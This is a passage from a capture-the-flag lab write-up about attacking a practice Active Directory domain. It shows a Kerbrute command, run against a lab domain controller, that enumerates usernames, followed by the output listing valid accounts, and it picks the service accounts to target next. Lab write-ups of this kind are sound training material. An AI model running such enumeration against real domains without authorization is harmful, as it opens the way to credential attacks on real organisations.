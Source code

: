 There's honestly not much here, though we can see that the NETBIOS domain name for the target is THM-AD.

The AD domain itself is using the standard (invalid) .local TLD, but that's not actually something that enum4linux tells us -- instead, we can see this in the earlier output from nmap.

## Enumerating Users via Kerberos

We'll now try to enumerate users using [Kerbrute](kerbrute.md) and the [provided user list](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt).

```bash
kerbrute userenum --dc 10.10.177.198 --domain spookysec.local --output attacktive-director.kerbrute userlist.txt
```

This produces the following output.

```Kerbrute user enumeration output
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/30/21 - Ronnie Flathers @ropnop

2021/12/30 21:12:56 >  Using KDC(s):
2021/12/30 21:12:56 >   10.10.177.198:88

2021/12/30 21:12:56 >  [+] VALID USERNAME:       james@spookysec.local
2021/12/30 21:12:59 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2021/12/30 21:13:03 >  [+] VALID USERNAME:       James@spookysec.local
2021/12/30 21:13:05 >  [+] VALID USERNAME:       robin@spookysec.local
2021/12/30 21:13:20 >  [+] VALID USERNAME:       darkstar@spookysec.local
2021/12/30 21:13:30 >  [+] VALID USERNAME:       administrator@spookysec.local
2021/12/30 21:13:49 >  [+] VALID USERNAME:       backup@spookysec.local
2021/12/30 21:13:58 >  [+] VALID USERNAME:       paradox@spookysec.local
2021/12/30 21:14:55 >  [+] VALID USERNAME:       JAMES@spookysec.local
2021/12/30 21:15:14 >  [+] VALID USERNAME:       Robin@spookysec.local
2021/12/30 21:17:10 >  [+] VALID USERNAME:       Administrator@spookysec.local
2021/12/30 21:20:59 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2021/12/30 21:22:12 >  [+] VALID USERNAME:       Paradox@spookysec.local
2021/12/30 21:26:17 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2021/12/30 21:27:26 >  [+] VALID USERNAME:       ori@spookysec.local
2021/12/30 21:29:37 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2021/12/30 21:35:06 >  Done! Tested 73317 usernames (16 valid) in 1330.206 seconds
```

We'll be targeting the `svc-admin` and `backup` accounts. (These are supposed to "jump out" at me, but honestly I'm not sure why they're more interesting than the other users, or `administrator`. Maybe because they're *not* obviously people but also not the `administrator` account?)

## Abusing Kerberos
